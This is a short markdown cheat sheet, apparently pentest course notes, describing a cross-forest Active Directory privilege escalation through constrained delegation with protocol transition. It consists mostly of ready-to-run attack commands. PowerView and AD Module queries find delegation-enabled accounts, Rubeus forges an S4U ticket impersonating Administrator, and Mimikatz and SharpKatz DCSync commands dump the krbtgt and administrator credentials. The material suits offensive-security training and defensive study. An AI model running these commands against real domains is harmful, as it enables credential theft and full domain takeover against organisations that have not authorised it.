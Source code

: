 # Cross Forest Attacks - Delegations

- [Cross Forest Attacks - Delegations](#cross-forest-attacks---delegations)
  - [Privilege Escalation - Constrained Delegation with Protocol Transition](#privilege-escalation---constrained-delegation-with-protocol-transition)
  - [](#)

---

## Privilege Escalation - Constrained Delegation with Protocol Transition

The classic Constrained Delegation does not work across forest trusts, but we can abuse it once we have a beachhead/foothold across forest trust.

- PowerView

```
Get-DomainUser –TrustedToAuth -Domain eu.local
Get-DomainComputer –TrustedToAuth -Domain eu.local
```

- AD Module

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local
```

<br/>

We can request an alternate ticket using Rubeus:

```
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@123 /user:storagesvc /domain:eu.local
```

```
C:\AD\Tools\Rubeus.exe s4u /user:storagesvc /rc4:068A0A7194F8884732E4F5A7CB47E17C /impersonateuser:Administrator /domain:eu.local /msdsspn:nmagent/eu-dc.eu.local /altservice:ldap /dc:eu-dc.eu.local /ptt
```

<br/>

Abuse the TGS to LDAP:

- Mimikatz

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\krbtgt /domain:eu.local"'
```

- SharpKatz.exe

```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\krbtgt --Domain eu.local --DomainController eu-dc.eu.local
```

```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\administrator --Domain eu.local --DomainController eu-dc.eu.local
```

<br/>

## 
